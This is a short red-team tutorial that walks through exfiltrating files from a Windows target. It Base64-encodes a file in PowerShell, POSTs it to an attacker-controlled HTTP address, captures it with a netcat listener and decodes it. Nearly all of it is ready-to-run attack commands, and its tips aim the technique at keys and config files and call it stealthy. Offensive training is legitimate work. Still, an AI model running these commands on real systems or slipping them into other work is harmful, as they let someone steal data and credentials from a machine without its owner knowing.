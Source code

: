 
This method is useful when you can’t upload files directly but can **send data as text** (like through HTTP POST requests). It’s great for **stealthy exfiltration** during red team operations or restricted environments.

---

## **1. Encode the File (Target Machine)**

Convert the file to Base64:

```powershell
$b64 = [System.Convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

This creates a Base64 string from the `hosts` file and stores it in `$b64`.

---

## **2. Send the Base64 Data via HTTP (Target Machine)**

Send the encoded data to your attacker server:

```powershell
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

---

## **3. Listen for the Data (Attacker Machine)**

Use Netcat to capture the POST request:

```bash
nc -lvnp 8000
```

When the target sends the data, you’ll see something like:

```
POST / HTTP/1.1
User-Agent: Mozilla/5.0
Content-Length: 1820

<base64 string here>
```

---

## **4. Decode the Base64 (Attacker Machine)**

Copy the Base64 string and decode it back to the original file:

```bash
echo <base64_string> | base64 -d -w 0 > hosts
```

---

## **5. Verify the File Integrity**

Check the hash to confirm the file matches the original:

```bash
md5sum hosts
```

---

## **Tips**

- This method is best for **small files** like keys, scripts, or config files.
    
- For large files, consider chunking the Base64 string into smaller parts.
    
- Use HTTPS for secure exfiltration to avoid sending sensitive data in plaintext.
    